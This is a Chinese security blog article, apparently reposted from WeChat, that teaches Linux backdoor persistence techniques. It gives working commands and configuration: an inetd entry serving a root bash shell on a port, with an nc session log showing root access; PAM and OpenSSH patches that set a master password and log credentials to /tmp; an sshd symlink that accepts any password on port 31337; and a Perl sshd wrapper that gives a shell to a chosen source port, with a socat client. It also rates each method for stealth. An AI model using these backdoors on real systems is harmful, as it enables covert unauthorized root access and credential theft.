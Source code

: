 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Q5_2TXSEmNWpcp9bTN1x9w)

![](https://mmbiz.qpic.cn/mmbiz_gif/cW8GezRBf38VQw73hmM9EJNpnjLStNutQRj5Nk7BicuEvvAutUkD5fJXv7bqkHqVZUh1juSohKHzSibCPTXmUCzw/640?wx_fmt=gif)

**0x06  远程后门**

**利用方法：**

      我们使用 vi 来修改 / etc/inetd.conf 文件，如下所示：

**原文件：**

```
#chargen dgram udp wait root internal
#discard stream tcp nowait root internal
#discard dgram udp wait root internal
#daytime stream tcp nowait root internal
```

**修改为：**  

```
#discard stream tcp nowait root internal
#discard dgram udp wait root internal
daytime stream tcp nowait root /bin/bash bash -i
```

**开启 inetd：**  

```
du:~# inetd
```

**如果要强制重启 inetd：**  

```
dawg:~# ps -ef grep inetdroot
362 1 0 Jul22 ? 00:00:00 /usr/sbin/inetdroot
13769 13643 0 17:51 pts/1 00:00:00 grep inetd
dawg:~# kill -HUP 362
```

**现在我们就可以用 nc 来爆菊了：**

```
C:tools 192.168.1.77: inverse host lookup failed: h_errno 11004: NO_DATA
(UNKNOWN) [192.168.1.77] 13 (daytime) open
bash：no job control in this shell
bash-2.05b# bash-2.05b#
bash-2.05b# iduid=0(root)
git=0(root) groups=0(root) bash-2.05b# uname -a
Linux dawg 2.4.20-1-386 #3 Sat Mar 22 12:11:40 EST 2003 i686 GNU/Linux
```

**可以修改 / etc/services 文件，添加以下代码：**

```
woot 6666/tcp #evil backdoor service
```

**然后修改 / etc/inetd.conf：**

```
woot stream tcp nowait root /bin/bash bash -i
```

      另外我们还可以修改成一些常见的端口，以实现隐藏。  

**0x07  PAM 后门**

1、获取目标系统所使用的 PAM 版本：

```
rpm -qa grep pam
```

2、编译安装 PAM。

3、将本地 pam_unix_auth.c 文件通过打补丁方式，编译生成。

4、编译完成后的文件在：modules/pam_unix/.libs/pam_unix.so，后门密码为 root123，并会在 / tmp/pslog 记录 root 登录密码。  
**特点：**

       优势：隐蔽性强，不容易发现。

      劣势：需要编译环境，缺少 GCC 或其他依赖包容易出现问题。

**0x08  openssh 后门**

**简介：**

      下载新版本的 openssh，并下载对应 patch 包，这个 patch 文件包含 sshbd5.9p1.diff 文件为后门文件，文件包括：auth.c、auth-pam.c、auth-passwd.c、canohost.c、includes.h、log.c、servconf.c、sshconnect2.c、sshlogin.c、version.h。

**利用方法：**

      tar-zxvf、openssh-5.9p1.tar.gz  

```
vi includes.h   //修改后门密码，记录文件位置
/*
#define ILOG "/tmp/ilog"   //记录登录到本机的用户名和密码
#define OLOG "/tmp/olog"   //记录本机登录到远程的用户名和密码
#define SECRETPW "root123"   //你的后门密码
*/
```

**特点：**

       优势：隐蔽性强，不容易被发现。

      劣势：需要编译环境，缺少 GCC 或其他依赖包容易出现问题。

**0x09  快速获得 ssh 后门**

**简介：**

      执行命令就会派生一个 31337 端口，然后连接 31337，用 root/bin/ftp/mail 当用户名，密码随意，就可登录。

**利用方法：**

      在远程主机上执行：

```
ln -sf /usr/sbin/sshd/tmp/su;/tmp/su -oPort=31337
```

      就会派生一个 31337 端口，然后连接 31337，用 root/bin/ftp/mail 当用户名，密码随意，就可登录。  

**特点：**

      优势：隐蔽性弱，适合短时间连接。  

      劣势：重启后会断开，无法后弹连接。

**0x10  SSH wrapper 后门**

**简介：**

      init 首先启动的是 / usr/sbin/sshd，脚本执行到 getpeername 这里的时候，正则匹配会失败，于是执行下一句，启动 / usr/bin/sshd，这是原始 sshd。

      原始的 sshd 监听端口建立了 tcp 连接后，会 fork 一个子进程处理具体工作。这个子进程，不需要检验，而是直接执行系统默认位置的 / usr/sbin/sshd，这样子控制权又回到脚本了。  

      此时子进程标准输入输出已被重定向到套接字，getpeername 能真的获取到客户端的 TCP 源端口，如果是 19523 就执行 sh 给个 shell。  

**利用方法：  
**

**客户端：**

```
[root@localhost~]# cd /usr/sbin
[root@localhost~]# mv sshd ../bin
[root@localhost~]# echo '#!/usr/bin/perl'>sshd
[root@localhost~]# echo 'exec "/bin/sh" if(getpeername(STDIN)=~/^..4A/);'>>sshd
[root@localhost~]# echo 'exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV,'>>sshd
[root@localhost~]# chmod u+x sshd
[root@localhost~]# /etc/init.d/sshd restart
```

**控制端：**  

```
socat STDIOTCP4:target_ip:22,sourceport=19526
```

**特点：**

      优势：隐蔽性较强，不需要编译，使用于大部分环境中。  

      劣势：需要重启 sshd 进程。

**0x11  mafix rootkit 创建后门**

**简介：**

      Mafix 是一款常用的轻量应用级别 Rootkits，是通过伪造 ssh 协议漏洞实现远程登录的特点是配置简单并可以自定义验证密码和端口号。

**利用方法：**

      安装完成后，使用 ssh 用户 @ip -p 配置的端口，即可远程登录。

**特点：**

      优势：隐蔽性一般，不需要编译。  

      劣势：会替换 ls 等命令，容易被识破。

![](https://mmbiz.qpic.cn/mmbiz_jpg/c6gqmhWiafypu8xMx0VGdz69F9YhVguXuME1NXHKBJvbXrGQUqA33gM6papce4MI1p7licuSL2uPbw5oXkA0YXWQ/640?wx_fmt=jpeg)

往期推荐

  

  

[3601 病毒分析](http://mp.weixin.qq.com/s?__biz=MzA5MDE2ODI0NQ==&mid=2247485560&idx=1&sn=048f0b6bb05dfb6642c41c9e2d8d6198&chksm=900e86a2a7790fb42ddea5b4548fb5c51d3f92a061307fc746c688eb2d98da3263dc16135e92&scene=21#wechat_redirect)

  

[网安笔记 | 非法网站渗透](http://mp.weixin.qq.com/s?__biz=MzA5MDE2ODI0NQ==&mid=2247485560&idx=2&sn=0a6d85a1c70a9d8902d99c90a1d7fd61&chksm=900e86a2a7790fb4dd6d7a75474be7beced84245e7f3c0b39579955077f7e8d4ad2355552d02&scene=21#wechat_redirect)

  

[PhpWeb CMS 前台 Getshell](http://mp.weixin.qq.com/s?__biz=MzA5MDE2ODI0NQ==&mid=2247485421&idx=1&sn=63eb781ffcdc36e4c7fcdfd9117cc54a&chksm=900e8937a7790021be02a0425255b7bbe1034dc39a34054b36290f774b91ede04d4a3a89d3ae&scene=21#wechat_redirect)

  

[WarmUp | 滑稽的代码审计](http://mp.weixin.qq.com/s?__biz=MzA5MDE2ODI0NQ==&mid=2247485421&idx=2&sn=641ca30e3f944181a9a5931189b06c56&chksm=900e8937a7790021394b0aaf0f9272cc0b191ea2a76ed5c3a72beb4a0e649f357ead8d31a3bf&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/6aVaON9Kibf5VNYt0ibwA6m1BvnXYFSnVn8icyic45TuQk1ib633LibS0HKWYQ6qz0yBLo894U0T52O2YEtyP3iaB7P1w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/5mCYKkWvZAh6zJBCiaXHKIpUycpKkr5ZVic0MtG1eibric9weY8PtSB23R7OKFb1AlGG0kbaKXyYhOiao6D8UK9KrqA/640?wx_fmt=jpeg)

长按二维码

关注我们吧

![](https://mmbiz.qpic.cn/mmbiz_png/US10Gcd0tQENdoltlmlstW79v8ibDFelROfzwpmcZ6r2ZINfyXOc24AVAON65c7shCuT1l1bz7ziavNMZSApBnhg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/NuIcic2jibgNJzwoZYCo6ThfOoeX410mwuDxnOnv5za18VZJ7ib30pic2NSNnicziaONicvs1C9yMDr6zV40ADD9yPP7Q/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/5mCYKkWvZAiaFXU9Shv9qyNibMjicOgIyic9vU88IQAMqhtuaUAN04xHhnicbT112sfdFe9mIG187l80j0onqHKdobQ/640?wx_fmt=png)

注：本文转载自 SecPulse 安全脉搏，可点击左下角阅读原文查看详情！